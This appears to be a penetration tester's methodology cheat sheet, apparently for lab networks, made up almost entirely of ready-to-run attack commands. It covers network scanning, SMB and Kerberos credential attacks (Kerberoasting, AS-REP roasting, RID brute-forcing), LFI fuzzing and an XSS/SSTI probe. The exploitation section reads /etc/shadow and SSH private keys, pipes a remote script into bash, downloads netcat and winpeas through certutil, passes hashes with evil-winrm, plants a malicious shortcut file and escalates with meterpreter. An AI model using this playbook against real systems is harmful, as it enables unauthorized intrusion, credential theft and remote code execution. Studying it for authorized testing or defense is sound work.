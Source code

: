 ### My Methodology

Host Discovery (External)
━━━━━━━━━━━━━━━━━━━━━━━━━
```
fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
```

Host Discovery (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━
fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'



Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem
